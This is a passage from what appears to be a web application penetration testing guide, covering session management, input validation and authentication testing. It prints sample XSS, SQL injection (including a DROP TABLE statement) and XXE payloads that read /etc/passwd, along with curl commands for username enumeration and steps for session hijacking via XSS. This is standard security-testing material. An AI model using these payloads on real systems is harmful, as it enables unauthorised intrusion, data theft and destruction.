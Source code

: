 6. **Session Management Testing**
```bash
# Session ID analysis
# Check randomness and length of session IDs
# Test session fixation
# Test session timeout
```

7. **Input Validation Testing**
```bash
# Cross-site scripting (XSS)
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
javascript:alert('XSS')

# SQL injection
' OR 1=1--
'; DROP TABLE users--

# XML External Entity (XXE)
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

## Authentication Testing

### Common Authentication Vulnerabilities

**Username Enumeration**:
```bash
# Different responses for valid/invalid users
curl -d "username=validuser&password=wrong" -X POST https://example.com/login
curl -d "username=invaliduser&password=wrong" -X POST https://example.com/login

# Time-based enumeration
time curl -d "username=admin&password=wrong" -X POST https://example.com/login
time curl -d "username=nonexistent&password=wrong" -X POST https://example.com/login
```

**Weak Password Recovery**:
```bash
# Predictable tokens
# Sequential tokens: 1001, 1002, 1003
# Timestamp-based tokens
# Check if tokens expire

# Information disclosure in reset process
# Does error message reveal if email exists?
```

**Session Management Issues**:
```bash
# Session fixation
# 1. Get session ID before login
# 2. Login with credentials
# 3. Check if session ID changed

# Session hijacking
# Steal session cookies via XSS
# Check if session works from different IP
```
